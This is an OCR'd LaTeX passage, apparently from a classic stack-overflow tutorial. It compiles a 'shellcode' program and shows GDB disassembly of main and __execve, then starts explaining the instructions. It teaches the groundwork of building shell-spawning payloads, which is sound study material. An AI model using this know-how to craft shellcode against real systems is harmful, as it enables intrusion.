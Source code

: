 \documentclass[10pt]{article}
\begin{document}
{\small
\begin{verbatim}
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode

GDB is free software and you are welcome to 
distribute copies of it under certain 
conditions; type "show copying" to see 
the conditions.  There is absolutely no 
warranty for GDB; type "show warranty" 
for details.

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:

0x8000130: pushl %ebp
0x8000131: movl  %esp,%ebp
0x8000133: subl  $0x8,%esp
0x8000136: movl  $0x80027b8,0xfffffff8(%ebp)
0x800013d: movl  $0x0,0xfffffffc(%ebp)
0x8000144: pushl $0x0
0x8000146: leal  0xfffffff8(%ebp),%eax
0x8000149: pushl %eax
0x800014a: movl  0xfffffff8(%ebp),%eax
0x800014d: pushl %eax
0x800014e: call  0x80002bc <__execve>
0x8000153: addl  $0xc,%esp
0x8000156: movl  %ebp,%esp
0x8000158: popl  %ebp
0x8000159: ret
End of assembler dump.

(gdb) disassemble __execve
Dump of assembler code for function __execve:
0x80002bc <__execve>:   pushl  %ebp
0x80002bd <__execve+1>: movl   %esp,%ebp
0x80002bf <__execve+3>: pushl  %ebx
0x80002c0 <__execve+4>: movl   $0xb,%eax
0x80002c5 <__execve+9>: movl   0x8(%ebp),%ebx
0x80002c8 <__execve+12>:movl   0xc(%ebp),%ecx
0x80002cb <__execve+15>:movl   0x10(%ebp),%edx
0x80002ce <__execve+18>:int    $0x80
0x80002d0 <__execve+20>:movl   %eax,%edx
0x80002d2 <__execve+22>:testl  %edx,%edx
0x80002d4 <__execve+24>:jnl    0x80002e6 <__execve+42>
0x80002d6 <__execve+26>:negl   %edx
0x80002d8 <__execve+28>:pushl  %edx
0x80002d9 <__execve+29>:
            call   0x8001a34 <__normal_errno_location>
0x80002de <__execve+34>:popl   %edx
0x80002df <__execve+35>:movl   %edx,(%eax)
0x80002e1 <__execve+37>:movl   $0xffffffff,%eax
0x80002e6 <__execve+42>:popl   %ebx
0x80002e7 <__execve+43>:movl   %ebp,%esp
0x80002e9 <__execve+45>:popl   %ebp
0x80002ea <__execve+46>:ret
0x80002eb <__execve+47>:nop
End of assembler dump.
\end{verbatim}

Lets try to understand what is going on here.  We'll start by studying main: 

\begin{verbatim}
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : subl $0x8,%esp
\end{verbatim}

}
\end{document}
